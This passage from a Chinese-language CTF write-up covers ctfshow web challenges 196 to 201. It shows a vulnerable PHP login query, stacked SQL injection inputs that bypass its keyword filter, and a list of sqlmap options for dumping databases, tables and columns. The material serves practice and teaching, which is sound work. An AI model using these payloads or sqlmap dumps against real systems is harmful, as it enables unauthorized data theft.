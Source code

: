 这题select实际没有过滤

题目查询语句

```php
$sql = "select pass from ctfshow_user where username = {$username};";
```

添加下面的sql语句实现堆叠注入后，row[0]=1，此时，$row[0]==$password密码验证时就需要登入密码=1了
```sql
1;select(1)
```

## web 197 - 200

```php
# 查询语句
$sql = "select pass from ctfshow_user where username = {$username};";
# 过滤语句
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username))
```

在上面语句中，发现没有过滤空格分号，且在查询语句里点明了表名，可以利用表名作为密码

用户名登入`1;show tables;`
```sql
1;show tables;
```

而密码验证是$row[0]==$password，这样查询的返回结果就是当前数据库里的表名ctfshow_user

密码登入ctfshow_user即可登录

## web 201

开始使用sqlmap了，要求

```
 使用--user-agent 指定agent
 --user-agent=sqlmap
 使用--referer 绕过referer检查
 --referer=ctf.show
```

在这里，将一下用到的参数

:::tip
-dump  导出数据
-refer 伪造来源

-D ：指定数据库名
-T  指定表名
-C  指定列名
--dbs  查询所有数据库
--tables  查询指定数据库的所有表
--columns  查询指定表的所有列
--dump  查询指定列的所有数据
:::
